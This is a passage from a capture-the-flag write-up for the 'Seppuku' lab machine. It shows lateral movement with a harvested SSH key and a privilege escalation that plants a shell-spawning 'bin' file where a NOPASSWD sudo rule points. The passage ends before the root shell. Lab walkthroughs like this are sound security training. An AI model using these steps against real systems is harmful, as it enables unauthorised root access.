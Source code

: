 
```
seppuku@seppuku:/home$ su tanto
Password: 
su: Authentication failure
seppuku@seppuku:/home$ su samurai
Password: 
samurai@seppuku:/home$ 
```
After switching users I did sudo -l to see what commands can be executed as root.

```
samurai@seppuku:/home$ sudo -l
Matching Defaults entries for samurai on seppuku:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User samurai may run the following commands on seppuku:
    (ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*

```

This appears to be a dead end till we are able to get into the tanto user however we do have a ssh key that we downloaded earlier.

I will chmod 600 the private key and ssh into the box as tanto.

```
┌──(hhhharshil㉿kali)-[~/Desktop/seppuku]
└─$ ssh -i id_rsa tanto@192.168.116.90 -t "bash -noprofile"
tanto@seppuku:~$ 
```

```
tanto@seppuku:~$ ls -la
total 28
drwxr-xr-x 4 tanto tanto 4096 Sep  1  2020 .
drwxr-xr-x 5 root  root  4096 May 13  2020 ..
-rw-r--r-- 1 tanto tanto  220 May 13  2020 .bash_logout
-rw-r--r-- 1 tanto tanto 3526 May 13  2020 .bashrc
drwx------ 3 tanto tanto 4096 May 13  2020 .gnupg
-rw-r--r-- 1 tanto tanto  807 May 13  2020 .profile
drwxr-xr-x 2 tanto tanto 4096 May 13  2020 .ssh
tanto@seppuku:~$ 
```

There is no folder named .cgi_bin so I will have to construct the path from the sudo -l output myself.

I created the .cgi_bin folder and then made a bin file which executes /bin/bash. Then chmod +x to ensure its executable by everyone.

```
tanto@seppuku:~/.cgi_bin$ echo "/bin/bash" > bin
tanto@seppuku:~/.cgi_bin$ chmod +x bin 
tanto@seppuku:~/.cgi_bin$ ls
bin
```
